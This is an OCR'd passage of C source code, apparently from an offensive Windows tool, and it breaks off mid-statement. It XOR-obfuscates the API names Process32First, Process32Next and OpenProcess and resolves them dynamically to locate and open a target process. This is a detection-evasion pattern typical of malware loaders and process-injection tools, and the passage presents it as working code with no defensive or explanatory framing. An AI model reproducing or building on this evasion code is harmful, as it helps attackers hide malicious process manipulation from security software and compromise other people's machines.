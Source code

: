 ```python
    unsigned char Process32First_encrypted[] = { 0x07, 0x25, 0x38, 0x34, 0x32, 0x24, 0x24, 0x64, 0x65, 0x11, 0x3e, 0x25, 0x24, 0x23, 0x57 };
    xor_decrypt( Process32First_encrypted, sizeof(Process32First_encrypted) );
    
    BOOL( WINAPI * _Process32First)
    (
        HANDLE           hSnapshot,
        LPPROCESSENTRY32 lppe   
    );

    _Process32First = ( BOOL (WINAPI *)
    (
        HANDLE           hSnapshot,
        LPPROCESSENTRY32 lppe     
    )) GetProcAddress( kernel32_dll_handle, Process32First_encrypted );

    if( NULL == _Process32First )
    {
        // printf( "Could not resolve Process32First!\n" );
        return 1;
    }
    
    _Process32First( process_snapshot, &current_process );

    BOOL( WINAPI * _Process32Next)
    (
        HANDLE           hSnapshot,
        LPPROCESSENTRY32 lppe 
    );

    unsigned char Process32Next_encrypted[] = { 0x07, 0x25, 0x38, 0x34, 0x32, 0x24, 0x24, 0x64, 0x65, 0x19, 0x32, 0x2f, 0x23, 0x57 };
    xor_decrypt( Process32Next_encrypted, sizeof(Process32Next_encrypted) );

    _Process32Next = ( BOOL (WINAPI *)
    (
        HANDLE           hSnapshot,
        LPPROCESSENTRY32 lppe    
    )) GetProcAddress( kernel32_dll_handle, Process32Next_encrypted );

    if( NULL == _Process32Next )
    {
        // printf( "Could not resolve Process32Next!\n" );
        return 1;
    }

    do
    {   
        // printf( "process id = %d\n", current_process.th32ProcessID );
        if( process_id == current_process.th32ProcessID )
        {
            unsigned char OpenProcess_encrypted[] = { 0x18, 0x27, 0x32, 0x39, 0x07, 0x25, 0x38, 0x34, 0x32, 0x24, 0x24, 0x57 };
            xor_decrypt( OpenProcess_encrypted, sizeof(OpenProcess_encrypted) );

            HANDLE( WINAPI * _OpenProcess )
            (
                DWORD dwDesiredAccess,
                BOOL  bInheritHandle,
                DWORD dwProcessId            
            );

            _OpenProcess = ( HANDLE (WINAPI *)
```